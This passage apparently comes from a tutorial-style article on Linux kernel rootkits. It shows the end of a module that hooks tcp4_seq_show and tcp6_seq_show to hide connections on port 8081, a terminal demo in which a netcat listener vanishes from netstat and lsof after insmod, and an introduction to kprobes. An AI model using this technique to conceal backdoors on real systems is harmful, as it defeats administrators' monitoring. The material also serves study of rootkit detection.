       return 0;
  }

  static void __exit hideport_exit(void)
  {
      fh_remove_hooks(new_hooks, ARRAY_SIZE(new_hooks));
  }

  module_init(hideport_init);
  module_exit(hideport_exit);
╚════════════════════════════════════════════════════════════════════════════╝

Basically when the system tries to list TCP connections, tcp4_seq_show or
tcp6_seq_show are called, but with hooks, these calls are redirected to
hooked_tcp4_seq_show or hooked_tcp6_seq_show, which checks the connection port
(stored in the sock structure). If the port is 8081, the function returns 0,
hiding the connection, while for the other ports the original functions are
called, ensuring the normal display of TCP connections.

╔════════════════════════════════════════════════════════════════════════════╗
  dumbledore@infect:~$ nc -lvnp 8081 &
  [1] 56634
  listening on [any] 8081 ...
  dumbledore@infect:~$
  dumbledore@infect:~$ netstat -tunlpd |grep 8081
  (Not all processes could be identified, non-owned process info
  will not be shown, you would have to be root to see it all.)
  tcp        0      0 0.0.0.0:8081            0.0.0.0:*               LISTEN      56634/nc
  dumbledore@infect:~$ lsof -i -P -n |grep 8081
  nc        56634 kali    3u  IPv4 885312      0t0  TCP *:8081 (LISTEN)
  dumbledore@infect:~$
  dumbledore@infect:~$ sudo insmod mtz.ko
  dumbledore@infect:~$ lsof -i -P -n |grep 8081
  dumbledore@infect:~$ netstat -tunlpd |grep 8081
  (Not all processes could be identified, non-owned process info
  will not be shown, you would have to be root to see it all.)
  dumbledore@infect:~$
╚════════════════════════════════════════════════════════════════════════════╝

--[ 2.2 ]------------------------------------------------------[ Kprobe ]-----

Kprobes and Kretprobes allow you to insert 'probes' into kernel functions at
runtime without requiring any modifications to the source code. These probes
can trigger the execution of defined callback functions at specific points
during the execution of a monitored function. This is particularly useful for
debugging, performance monitoring, and even for security purposes like
detecting malicious activity.

A kprobe is a kernel mechanism used to break into any kernel routine and
collect debugging and performance information. A probe is inserted at a
specific location in a function to perform actions like logging, modifying
parameters, or even changing the control flow of the target function. Kprobes
are generally used for monitoring function execution and tracing the flow of
kernel code.
